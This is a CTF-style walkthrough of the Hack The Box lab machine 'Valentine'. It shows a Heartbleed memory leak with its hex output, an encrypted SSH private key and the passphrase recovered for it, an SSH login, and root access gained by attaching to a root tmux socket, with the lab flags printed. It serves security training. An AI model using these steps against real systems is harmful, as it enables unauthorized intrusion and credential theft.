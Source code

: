![banner](../../assets/images/htb/valentine.png)

# Valentine: 10.10.10.79

## Scanning:
<br>

```bash
nmap -A -oA nmap 10.10.10.79

Starting Nmap 7.01 ( https://nmap.org  ) at 2018-05-06 20:04 EDT
Nmap scan report for 10.10.10.79
Host is up (0.15s latency).
Not shown: 996 closed ports
PORT     STATE    SERVICE  VERSION
22/tcp   open     ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp   open     http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp  open     ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2018-05-07T00:05:15+00:00; 0s from scanner time.
2251/tcp filtered dif-port
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.08 seconds
```

<br>

## Gaining Access:

<br>

First thing first let's see what's on those HTTP(S) applications and run a `dirb`.

![](../assets/images/htb/79_index.png)

_index.html_
```html
<center><img src="omg.jpg"/></center>

```

Well, look what we got. A nice picture with a heart bleeding. The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. This weakness allows stealing the information protected, under normal conditions, by the SSL/TLS encryption used to secure the Internet

During OSCP exam, you can use `metasploit` for only one machine. Thus, I decided to use this <a href='https://github.com/kevincarroll7737/tools/heartbleed-PoC'>tool</a>.

```bash
python heartbleed-exploit.py 10.10.10.79;head out.txt -n 50; rm out.txt
Connecting...
Sending Client Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 885
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Handshake done...
Sending heartbeat request with length 4 :
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response in file out.txt
WARNING : server returned more data than it should - server is vulnerable!
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 19  mV0aGVoeXBlCg==.
  0160: D1 9C 3E AE 23 57 C6 09 0B 9D E3 01 7F F4 92 78  ..>.#W.........x
  0170: F7 5F 65 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ._e.............

echo 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg=='|base64 -d                  
heartbleedbelievethehype
```

I've got stuck for a while shuffling the memory. Finally, I discovered the path `/dev` by running `nikto -host 10.10.10.79` in the HTTPS application which gave me the encoded `hype_key`.

_hype_key.txt_
```bash
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
```

Well, the initial `nmap` shows that the ssh server accepts `RSA-2048`.

```bash
chmod 600 hype_key.txt
ssh -i hype_key.txt hype@10.10.10.79
Enter passphrase for key 'hype_key.txt': heartbleedbelievethehype

Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)
 * Documentation:  https://help.ubuntu.com/
New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sun May  6 17:56:59 2018 from 10.10.15.75
hype@Valentine:~$ 
```



<br>

## Maintaining Access:

<br>
```
N/A
```

<br>

## Acheive Tasks:

<br>

```bash
#Localhost
sudo scp -i hype_key.txt ~/git/tools/linenum.sh hype@10.10.10.79:~/
Enter passphrase for key 'hype_key.txt': 
linenum.sh                                                             100%   41KB  41.2KB/s   00:0o
```

Once the `linenum.sh` was on the `valentine host` I ran it and discovered that `tmux` was installed. 

I fist ran, `tmux -V` to see if this version was vulnerable to `utmp priv esc`, but it wasn't. 

`Tmux` is a strong shell emulator. It gives you the opportunity to leave terminal session and come back to them without interrupting the running process by creating a persistent socket `-S` stored localy. 



```bash
#Get the root tmux socket
hype@Valentine:~$ ps -aux|grep tmux
Warning: bad ps syntax, perhaps a bogus '-'? See http://procps.sf.net/faq.html
root       1027  0.0  0.1  26416  1688 ?        Ss   19:07   0:01 /usr/bin/tmux -S /.devs/dev_sess
hype       4406  0.0  0.0  13576   936 pts/0    S+   19:41   0:00 grep --color=auto tmux

#Connect to this socket
hype@Valentine:~$ tmux -S /.devs/dev_sess
root@Valentine:/home/hype~ id
uid=0(root) gid=0(root) groups=0(root)
oot@Valentine:/home/hype~ cat /root/root.txt
f1bb6d759df1f272914ebbc9ed7765b2
hype@Valentine:~$ find . -iname user.txt
./Desktop/user.txt
hype@Valentine:~$ cat ./Desktop/user.txt 
e6710a5464769fd5fcd216e076961750
```

So, how to manage `root tmux sockets` on a public server? Simple, make sure that this socket is a `root` dirctory

```bash
hype@Valentine:~$ ps -aux|grep tmux
Warning: bad ps syntax, perhaps a bogus '-'? See http://procps.sf.net/faq.html
root       1027  0.0  0.1  26416  1688 ?        Ss   19:07   0:01 /usr/bin/tmux -S /.devs/dev_sess
root       4588  0.0  0.1  26420  1688 ?        Ss   19:57   0:00 tmux -S /root/test
hype       4653  0.0  0.0  13576   936 pts/0    S+   19:57   0:00 grep --color=auto tmux
hype@Valentine:~$ tmux -S /root/test
failed to connect to server: Permission denied
```
